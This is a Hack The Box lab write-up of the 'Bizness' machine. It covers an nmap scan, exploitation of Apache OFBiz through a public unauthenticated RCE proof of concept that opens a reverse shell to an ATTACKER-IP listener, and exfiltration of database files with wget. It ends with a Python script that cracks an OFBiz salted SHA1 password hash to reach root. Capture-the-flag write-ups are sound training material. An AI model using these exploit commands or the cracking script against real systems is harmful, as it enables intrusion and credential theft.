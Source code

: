 # **Bizness | HTB**

***

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/db5be50c-eaa2-44a8-9160-d1e32ab85367)

***

Running our nmap scan we have -:


```bash
# Nmap 7.94SVN scan initiated Sat Feb  3 22:30:51 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.11.252
Increasing send delay for 10.10.11.252 from 0 to 5 due to 127 out of 317 dropped probes since last increase.
Increasing send delay for 10.10.11.252 from 5 to 10 due to 103 out of 257 dropped probes since last increase.
Warning: 10.10.11.252 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.252
Host is up (0.17s latency).
Not shown: 59091 closed tcp ports (conn-refused), 6440 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-14T20:03:40
| Not valid after:  2328-11-10T20:03:40
| MD5:   b182:2fdb:92b0:2036:6b98:8850:b66e:da27
|_SHA-1: 8138:8595:4343:f40f:937b:cc82:23af:9052:3f5d:eb50
|_http-server-header: nginx/1.18.0
| tls-alpn: 
|_  http/1.1
38857/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  3 22:33:52 2024 -- 1 IP address (1 host up) scanned in 181.03 seconds
```





 Navigating to port 443 we have a https://bizness.htb website, in which we can go ahead and add to our `/etc/hosts` folder


![](https://i.imgur.com/Qi6A6ah.png)

 Nothing seems to show up in source code analysis but running directory bruteforce we have a login panel URL


![](https://i.imgur.com/Bt3tdqI.png)



Navigating to the URL we truly have a login panel, in which we don't have any usernames nor passwords yet



![](https://i.imgur.com/lLrGX8D.png)



Source Code analysis shows the version of the technology and it name called "**Apache OFBiz**"(18.12)



![](https://i.imgur.com/KOrYvD8.png)


Made more enumeration and found an exploit to ofbiz unauthenticated RCE -:


[CVE-2023-51467 and CVE-2023-49070 POC](https://github.com/UserConnecting/Exploit-CVE-2023-49070-and-CVE-2023-51467-Apache-OFBiz)


> An unauthenticated attacker can use this vulnerability to successfully take over Apache OFBiz.


To exploit this, first of all download this `.jar` file with the following command


```bash
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

Then start up your listener on port 1337 with netcat and run the exploit as follows


```bash
# Start listener
nc -lvnp 1337

# Launch exploit
python3 exploit.py https://bizness.htb shell ATTACKER-IP:1337
```



![](https://i.imgur.com/rFBUU1I.png)


Running `linpeas.sh` i was able to gather few important directories

```
1. /var/lib/apt/
2. /opt/ofbiz/.github/workflows/
3. /opt/ofbiz/runtime/data/derby/ofbiz/log/           
4. /opt/ofbiz/runtime/logs/
```


The directory with the listing of `3.` (derby) had important `.DAT` files go ahead and download them Recursively with `python` and `wget`



```bash
# Target machine
python3 -m http.server 1337

# Attacker machine
wget -r 10.10.11.252:1337/
```


After some few enumeration on this files, i found out that where some hashes stored in most of the files


![](https://i.imgur.com/Zk3ySX1.png)


```
strings *.dat | grep SHA
```


Cracking this hash with `hashcat` or `JRP` does not even work, asked for few hints and was told that the hash was hashed with this java [Function](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java)
Then i Holla a friend since i ain't pretty good at `python` and then they made this up for me using the hashlib, base64 and os library to decrypt this hash 




```python
import hashlib  
import base64  
import os  
def cryptBytes(hash_type, salt, value):  
    if not hash_type:  
        hash_type = "SHA"  
    if not salt:  
        salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')  
    hash_obj = hashlib.new(hash_type)  
    hash_obj.update(salt.encode('utf-8'))  
    hash_obj.update(value)  
    hashed_bytes = hash_obj.digest()  
    result = f"${hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"  
    return result  
def getCryptedBytes(hash_type, salt, value):  
    try:  
        hash_obj = hashlib.new(hash_type)  
        hash_obj.update(salt.encode('utf-8'))  
        hash_obj.update(value)  
        hashed_bytes = hash_obj.digest()  
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')  
    except hashlib.NoSuchAlgorithmException as e:  
        raise Exception(f"Error while computing hash of type {hash_type}: {e}")  
hash_type = "SHA1"  
salt = "d"  
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="  
wordlist = '/usr/share/wordlists/rockyou.txt'  
with open(wordlist,'r',encoding='latin-1') as password_list:  
    for password in password_list:  
        value = password.strip()  
        hashed_password = cryptBytes(hash_type, salt, value.encode('utf-8'))  
        # print(hashed_password)  
        if hashed_password == search:  
            print(f'Found Password:{value}, hash:{hashed_password}')
```


![](https://i.imgur.com/AemGRaE.png)


Funny enough this password gave us access as user root


![](https://i.imgur.com/i30RpVU.png)




**_Things i Would take good note of_ -:**


- Get much better at python
- Patience is key, wouldn't have found those hashes if i wasn't careful with my `linpeas` result and wasn't also looking out for it in the main logs folder



GG

![](https://i.pinimg.com/originals/bb/83/ac/bb83ac696e85c4710a5b89c6d6eeac81.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

